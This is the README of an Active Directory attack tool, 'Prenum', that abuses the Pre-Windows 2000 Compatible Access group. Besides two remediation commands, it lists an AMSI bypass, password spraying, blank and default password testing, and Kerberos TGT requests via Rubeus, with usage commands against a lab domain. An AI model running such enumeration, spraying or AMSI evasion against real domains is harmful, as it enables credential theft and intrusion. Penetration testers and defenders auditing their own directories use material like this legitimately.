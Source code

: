 # prenum
![Main](https://github.com/4ndr34z/prenum/blob/main/images/pic1.png?raw=true)
## The perils of the Pre-Windows 2000 compatible access group in a Windows Domain.
<p>On Windows 2000 and probably 2003/2008 too (not verified), that group contained groups: Anonymous/Everyone/Authenticated Users
Even if you have upgraded your Domain Controllers to Windows 2022, that group is kept unchanged.</p>

That means a anonymous user can query domain information, like userinfo, group membership, trusts, etc.
Even newly installed domains running Windows 2022, will still have Authenticated users as members in that group.

So if you have user credentials, you can still query all that information.

Prenum is a script exploiting this, by requesting information that might be useful for an attacker.
It can search for computer account with password the same as computername or no password at all. 

This could be the situation if some computer-accounts are pre-created with the box ```Assign this computer account as a pre-Windows 2000 computer``` are ticked, or computer-accounts are created with other tools.

<img src="https://github.com/4ndr34z/prenum/blob/main/images/precomp.png" height="280">

Some automation-tools also create users, leaving the ```Password-Not-Required``` attribute enabled. This means that users **may** set a blank password and **are allowed to do so**, regardless of what kind of password policy is in place. You can and should test for this in your Active Directory: 

    Get-ADUser -Filter {PasswordNotRequired -eq $true}
And fix it:

    Get-ADUser -Identity username | Set-ADUser -PasswordNotRequired $false

All of this should be checked in an old Active Directory.

Prenum is still in early development...


## Functions
- Full AMSI-Bypass
- Reflectively loading [Rubeus](https://github.com/GhostPack/Rubeus) and [Certify](https://github.com/GhostPack/Certify)
- Enumerate and test all computers in AD; check if their password is the same as the computername
- Enumerate all users in AD; check if the password is blank
- Passwordspray all users in AD
- Request Kerberos TGT for computer and/or user-accounts found vulnerable (Using Rubeus)
- Test for vulnerable certificate templates (Using Certify)
- Do simple LDAP searches
- Run any Rubeus command
- Run any Certify command

## Usage
### Enumerate and test users, computers and passwordspraying

    .\Prenum.ps1' -DC menhit -Domain windcorp.htb -Users -Computers -Spraypass 'WelcomeToWindcorp#2023'
### Enumerate computers and request Kerberos TGT if vulnerable computer-accounts are found

    .\Prenum.ps1' -DC menhit -Domain windcorp.htb -Computers -Asktgt

### Running Rubeus

    .\Prenum.ps1 -DC menhit -Domain windcorp.htb -Rubeus "triage"

### Running Certify

    .\Prenum.ps1 -Certify "cas /domain:windcorp.htb"

### LDAP-search for Domain-controllers

    .\Prenum.ps1 -DC menhit -Domain windcorp.htb -ldap "(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=8192))"

